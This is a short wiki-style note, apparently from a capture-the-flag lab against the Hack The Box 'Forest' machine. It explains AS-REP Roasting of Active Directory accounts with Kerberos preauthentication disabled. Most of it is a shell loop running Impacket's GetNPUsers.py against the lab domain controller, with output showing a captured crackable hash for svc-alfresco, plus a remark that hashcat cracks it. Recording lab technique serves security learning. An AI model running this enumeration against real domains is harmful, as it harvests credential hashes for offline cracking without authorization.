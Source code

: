 ```yaml
---
id: f6604f23-26b0-4da6-9c3d-f240b929526a
title: AS-REP Roasting
---
```


- <a href="#as-rep-roasting-1" id="toc-as-rep-roasting-1">AS-REP Roasting</a>

# AS-REP Roasting

Two key attacks on [Kerberos](id:d7c3d319-5fde-4254-95ca-8b3cc2534aee) security in Active Directory include [kerberoasting](id:78221ca4-7b41-4377-aa13-88d50a4fd30d) and AS-REP Roasting. Kerberoasting typically requires credentials on the domain to authenticate with. There is an option for an account to have the property “Do not require Kerberos preauthentication” or UF<sub>DONTREQUIREPREAUTH</sub> set to true. AS-REP Roasting is an attack against Kerberos for these accounts.

Use the [Impacket](id:e935d19d-d441-4bdf-b0fd-8886eb807c7a) tool `GetNPUsers.py` to try to get a hash for each user

``` shell
λ ~/ctf/htb/forest/ for user in $(cat usernames.txt); do GetNPUsers.py -no-pass -dc-ip 10.10.10.161 htb/${user} | grep -v Impacket; done

[*] Getting TGT for sebastien
[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for lucinda
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for svc-alfresco
$krb5asrep$23$svc-alfresco@HTB:25311259ddd6d0e65a4ae2cd898c547b$2328b382956004167ef612abbfd0b3350d362f386d70deadf093d73dd33fadea8bf648d3d7c1cab3565b508a9dafb06cb399ac26e04521ffa22edc882213994257e53976a81b78aaf49dfe02da14f6f76fc7def2a7d4e7e8ff696efa29a1ac4a8df2c0f7856df3c7aa7bbff60e93c1e1fbfc538745a0ffefa3f383d68ddfb4984d1194bc56cc9d168b69a512901815da53cba71a2d0a13c6369fd1b74b9ce3367119502354b2cae4ae3096e5ba4a041fa8a0d1d7f4a92c0f47d2c6ee7bcc73b7f2c3b10955799c807bf43d3035488fb385c68568e770d87d771343e16266ea8f

[*] Getting TGT for andy
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for mark
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for santi
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
```

The hash is quickly cracked with `hashcat`.
